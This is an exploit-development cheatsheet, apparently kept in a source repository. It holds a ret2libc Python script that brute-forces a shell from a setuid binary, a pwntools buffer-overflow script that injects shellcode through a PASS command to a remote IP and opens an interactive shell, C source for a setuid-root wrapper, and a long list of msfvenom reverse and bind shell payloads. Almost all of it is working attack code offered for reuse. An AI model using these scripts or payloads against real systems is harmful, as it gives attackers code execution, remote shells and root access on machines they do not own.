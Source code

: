 # Cheatsheet

## Exploit Development

### Print hex encoded string in text
```
printf $(cat file.txt | tr -d '\n')
```

### Cross compile with - mingw32
```
i586-mingw32msvc-gcc a.c
wine a.exe
```

### Passing binary data as arguments
```
command $(python -c 'print ...')
```

### Passing binary data as standard input
```
python -c 'print ...' | command
```

### Use file as input and then read from standard input
```
cat file - | command
```
```
python -c 'print ...' | cat file - | command    
```

### Printing shell code
```
(Bash) echo -e '\x31\xc0\x50\x68\x2f...'
(Python) python -c 'print "\x31\xc0\x50\x68\x2f..."'
(Perl) perl -e 'print "\x31\xc0\x50\x68\x2f..."'
```

## ret2libc

- Find libc address: ​`ldd /usr/local/bin/backup`
- Find libc `system` function: ​`readelf -s /lib32/libc.so.6 | grep system`
- Find libc `exit` function: ​`readelf -s /lib32/libc.so.6 | grep exit`
- Find libc `/bin/sh` reference: ​`strings -a -t x /lib32/libc.so.6 | grep /bin/sh`


```
import struct, subprocess

libc = 0xf75e2000
sysOffset = 0x0003a940
sysAddress = libc + sysOffset
exitOffset = 0x0002e7b0
exitAddress = libc + exitOffset
binsh = libc + 0x0015900b

payload = "A" * 512
payload += struct.pack("<I", sysAddress)
payload += struct.pack("<I", exitAddress)
payload += struct.pack("<I", binsh)

attempts = 0

while True:
  attempts += 1
  print "Attempts: " + attempts
  subprocess.call(["/usr/local/bin/vulnerable-binary", "arg1", "arg2", payload])
```

## Network attack

```
from pwn import *

shellcode =
"\x6a\x02\x5b\x6a\x29\x58\xcd\x80\x48\x89\xc6\x31\xc9\x56\x5b\x6a\x3f\x58\xc
d\x80\x41\x80\xf9\x03\x75\xf5\x6a\x0b\x58\x99\x52\x31\xf6\x56\x68\x2f\x2f\x7
3\x68\x68\x2f\x62\x69\x6e\x89\xe3\x31\xc9\xcd\x80"

payload = "A"*28 + p32(0xffffd630) + shellcode
r = remote('10.10.10.34', 7411)
print r.recv(1024)

r.sendline('USER admin')
print r.recv(1024)

r.sendline('PASS ' + payload)
r.interactive()
```

## Simple SUID Binary

```
#include <stdio.h>
#include <stdlib.h>
#include <sys/types.h>
#include <unistd.h>

int main()
{
  setuid(0);
  system("id");
  return 0;
}

```

## Msfvenum

### Payloads
```
cmd/unix/bind_awk
cmd/unix/bind_busybox_telnetd
cmd/unix/bind_inetd
cmd/unix/bind_lua
cmd/unix/bind_netcat
cmd/unix/bind_netcat_gaping
cmd/unix/bind_netcat_gaping_ipv6
cmd/unix/bind_nodejs
cmd/unix/bind_perl
cmd/unix/bind_perl_ipv6
cmd/unix/bind_r
cmd/unix/bind_ruby
cmd/unix/bind_ruby_ipv6
cmd/unix/bind_socat_udp
cmd/unix/bind_stub
cmd/unix/bind_zsh
cmd/unix/generic
cmd/unix/reverse
cmd/unix/reverse_awk
cmd/unix/reverse_bash
cmd/unix/reverse_bash_telnet_ssl
cmd/unix/reverse_ksh
cmd/unix/reverse_lua
cmd/unix/reverse_ncat_ssl
cmd/unix/reverse_netcat
cmd/unix/reverse_netcat_gaping
cmd/unix/reverse_nodejs
cmd/unix/reverse_openssl
cmd/unix/reverse_perl
cmd/unix/reverse_perl_ssl
cmd/unix/reverse_php_ssl
cmd/unix/reverse_python
cmd/unix/reverse_python_ssl
cmd/unix/reverse_r
cmd/unix/reverse_ruby
cmd/unix/reverse_ruby_ssl
cmd/unix/reverse_socat_udp
cmd/unix/reverse_ssl_double_telnet
cmd/unix/reverse_stub
cmd/unix/reverse_zsh
cmd/windows/adduser
cmd/windows/generic
cmd/windows/powershell_bind_tcp
cmd/windows/powershell_reverse_tcp
cmd/windows/reverse_powershell
firefox/exec
firefox/shell_bind_tcp
firefox/shell_reverse_tcp
generic/shell_bind_tcp
generic/shell_reverse_tcp
java/shell/bind_tcp
java/shell/reverse_tcp
java/shell_reverse_tcp
linux/x64/exec
linux/x64/shell/bind_tcp
linux/x64/shell/reverse_tcp
linux/x64/shell_bind_tcp
linux/x64/shell_reverse_tcp
linux/x86/adduser
linux/x86/chmod
linux/x86/exec
linux/x86/shell/bind_tcp
linux/x86/shell/reverse_tcp
linux/x86/shell_bind_tcp
linux/x86/shell_reverse_tcp
multi/meterpreter/reverse_http
multi/meterpreter/reverse_https
nodejs/shell_bind_tcp
nodejs/shell_reverse_tcp
osx/armle/shell/bind_tcp
osx/armle/shell/reverse_tcp
osx/armle/shell_bind_tcp
osx/armle/shell_reverse_tcp
osx/ppc/shell/bind_tcp
osx/ppc/shell/reverse_tcp
osx/ppc/shell_bind_tcp
osx/ppc/shell_reverse_tcp
osx/x64/exec
osx/x64/shell_bind_tcp
osx/x64/shell_reverse_tcp
osx/x86/exec
osx/x86/shell_bind_tcp
osx/x86/shell_reverse_tcp
php/bind_php
php/download_exec
php/exec
php/reverse_perl
php/reverse_php
php/shell_findsock
python/shell_bind_tcp
python/shell_reverse_tcp
r/shell_bind_tcp
r/shell_reverse_tcp
ruby/shell_bind_tcp
ruby/shell_reverse_tcp
windows/adduser
windows/dllinject/bind_tcp
windows/dllinject/reverse_tcp
windows/download_exec
windows/exec
windows/powershell_bind_tcp
windows/powershell_reverse_tcp
windows/shell/bind_tcp
windows/shell/reverse_tcp
windows/shell_bind_tcp
windows/shell_reverse_tcp
windows/upexec/bind_tcp
windows/upexec/reverse_tcp
windows/x64/exec
windows/x64/powershell_bind_tcp
windows/x64/powershell_reverse_tcp
windows/x64/shell/bind_tcp
windows/x64/shell/reverse_tcp
windows/x64/shell_bind_tcp
windows/x64/shell_reverse_tcp
```
